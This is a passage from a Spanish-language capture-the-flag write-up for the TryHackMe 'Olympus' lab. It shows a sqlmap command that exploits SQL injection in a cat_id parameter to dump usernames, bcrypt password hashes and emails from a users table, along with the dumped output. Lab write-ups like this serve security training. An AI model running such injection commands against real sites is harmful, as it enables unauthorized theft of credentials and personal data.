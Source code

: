 ```
[...]
Database: olympus
Table: users
[9 columns]
+----------------+--------------+
| Column         | Type         |
+----------------+--------------+
| randsalt       | varchar(255) |
| user_email     | varchar(255) |
| user_firstname | varchar(255) |
| user_id        | int          |
| user_image     | text         |
| user_lastname  | varchar(255) |
| user_name      | varchar(255) |
| user_password  | varchar(255) |
| user_role      | varchar(255) |
+----------------+--------------+
[...]
```

Nos traemos las columnas *user_name*, *user_password* y *user_email*

```console
┌──(ewan67㉿kali)-[~/Documents/Cybersecurity/THM/Olympus]
└─$ sqlmap -u 'http://olympus.thm/~webmaster/category.php?cat_id=1' -p 'cat_id' -D olympus -T users  -C user_name,user_password,user_email --dump
```

Significado de las flags:

* `-C`&nbsp;: nos permite listar las columnas que nos queremos traer.

```
[...]
Database: olympus
Table: users
[3 entries]
+------------+--------------------------------------------------------------+------------------------+
| user_name  | user_password                                                | user_email             |
+------------+--------------------------------------------------------------+------------------------+
| prometheus | $2y$10$YC6uoMwK9VpB5QL513vfLu1RV2sgBf01c0lzPHcz1qK2EArDvnj3C | prometheus@olympus.thm |
| root       | $2y$10$lcs4XWc5yjVNsMb4CUBGJevEkIuWdZN3rsuKWHCc.FGtapBAfW.mK | root@chat.olympus.thm  |
| zeus       | $2y$10$cpJKDXh2wlAI5KlCsUaLCOnf0g5fiG0QSUS53zp/r0HMtaj6rT4lC | zeus@chat.olympus.thm  |
+------------+--------------------------------------------------------------+------------------------+
[...]
```
